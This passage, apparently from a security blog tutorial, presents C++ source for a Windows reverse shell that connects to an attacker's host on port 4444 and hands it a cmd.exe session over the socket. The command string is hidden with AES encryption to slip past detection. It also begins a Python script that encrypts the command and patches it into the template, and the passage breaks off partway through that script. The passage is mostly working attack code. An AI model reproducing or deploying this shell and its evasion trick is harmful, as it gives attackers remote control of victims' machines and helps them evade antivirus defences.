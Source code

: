 ```cpp
  short port = 4444;

  // init socket lib
  WSAStartup(MAKEWORD(2, 2), &wsaData);

  // create socket
  wSock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

  hax.sin_family = AF_INET;
  hax.sin_port = htons(port);
  hax.sin_addr.s_addr = inet_addr(ip);

  // connect to a attacker's host port
  WSAConnect(wSock, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

  memset(&sui, 0, sizeof(sui));
  sui.cb = sizeof(sui);
  sui.dwFlags = STARTF_USESTDHANDLES;
  sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE) wSock;

  char command[8] = "";
  snprintf( command, sizeof(command), "%s", myCmd);

  // start cmd.exe (decrypted) with redirected streams
  CreateProcess(NULL, command, NULL, NULL, TRUE, 0, NULL, NULL, &sui, &pi);
  exit(0);
}
```

The only difference with our first simple implementation is - we add AES decrypt function, our secret key `mySecretKey` for decryption and `myCmd` for store our encrypted command:

![add AES and key](/assets/images/5/2021-09-15_13-17.png){:class="img-responsive"}

and we add decryption line in our `main` function:
![AES decryption](/assets/images/5/2021-09-15_13-20.png){:class="img-responsive"}

AES encrption is actually simple function, it’s a symmetric encryption, we can use it for encryption and decryption with the same key.

In our shell, `myCmd` should be encrypted with AES.

For that we create simple python script which encrypt `cmd.exe` and replace it in our C++ template (and replace attacker's host address, port):
```python
# shell-aes.py
# author: @cocomelonc
# windows reverse shell AES encryptor (only cmd.exe now)
import sys
import os
from Crypto.Cipher import AES
from os import urandom
import hashlib

def pad(s):
    return s + (AES.block_size - len(s) % AES.block_size) * chr(AES.block_size - len(s) % AES.block_size)

def convert(data):
    output_str = ""
    for i in range(len(data)):
        current = data[i]
        ordd = lambda x: x if isinstance(x, int) else ord(x)
        output_str += hex(ordd(current))
```